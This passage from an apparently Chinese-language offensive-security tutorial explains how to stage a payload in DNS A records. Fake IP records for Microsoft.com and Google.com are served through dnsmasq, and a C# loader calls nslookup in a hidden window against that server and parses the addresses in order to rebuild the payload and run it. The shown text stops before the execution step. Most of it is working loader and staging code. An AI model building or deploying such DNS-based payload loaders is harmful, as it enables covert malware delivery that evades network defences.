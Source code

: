 前文中我们提到过使用DNSmasq来做一个简便的dns服务器。过程很简单： 编辑/etc/hosts，将上述程序得到的DNS A记录数据添加进去：

  *   *   *   *   *   *   *   *   * 

    
    
    vim /etc/hosts96.137.229.2 Microsoft.com49.210.100.3 Microsoft.com139.82.48.4 Microsoft.com139.82.12.5 Microsoft.com...198.139.7.11 Google.com1.195.133.12 Google.com192.117.229.13 Google.com

  
启动DNSmasq

  *   * 

    
    
    dnsmasq    #启动dnsmasqdnsmasq --no-daemon --log-queries    #记录日志

  
nalookup测试数据  

  *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    λ nslookup microsoft.com 10.0.0.88服务器:  UnKnownAddress:  10.0.0.88名称:    microsoft.comAddresses:  0.0.0.1          96.137.229.2          49.210.100.3          139.82.48.4          139.82.12.5          139.82.20.6          139.114.40.7          15.183.74.8

  

### 3.3.3 读取DNS A记录的Loader

  

现在有了dns A记录的数据了，那我们怎么来获得它？怎么来由dns A记录还原出payload？怎么来执行payload呢？思路如下：
使用C#运行cmd命令，执行nslookup来回去DNS A记录数据

  *   *   *   *   *   *   *   *   * 

    
    
    ProcessStartInfo ns_Prcs_info = new ProcessStartInfo("nslookup.exe", DomainName + " " + DnsServer);ns_Prcs_info.RedirectStandardInput = true;ns_Prcs_info.RedirectStandardOutput = true;ns_Prcs_info.UseShellExecute = false;Process nslookup = new Process();nslookup.StartInfo = ns_Prcs_info;nslookup.StartInfo.WindowStyle = ProcessWindowStyle.Hidden;nslookup.Start();string computerList = nslookup.StandardOutput.ReadToEnd();

  
这一步得到的数据是：

  *   *   *   *   *   * 

    
    
    服务器:  UnKnownAddress:  10.0.0.88名称:    microsoft.comAddresses:  0.0.0.1          96.137.229.2          49.210.100.3

  
而真实的payload和顺序数据只是在IP地址中，所以下一步是解析数IP地址数组。 解析ip地址数组

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    //格式化接收到的数据string[] lines = computerList.Replace("\t","").Replace("\r","").Split('\n');int ID = 0;//删除解析头数据foreach (var item in lines){    if (item.Contains(DNS_PTR_A))    {        break;    }    ID++;}//将解析的ip数据存入数组List<string> A_Records = new List<string>();try{    int FindID_FirstAddress = ID + 1;    A_Records.Add(lines[FindID_FirstAddress].Split(':')[1].Substring(2));    for (int iq = FindID_FirstAddress + 1; iq < lines.Length - 2; iq++)    {        A_Records.Add(lines[iq].Replace(" ",""));    }}
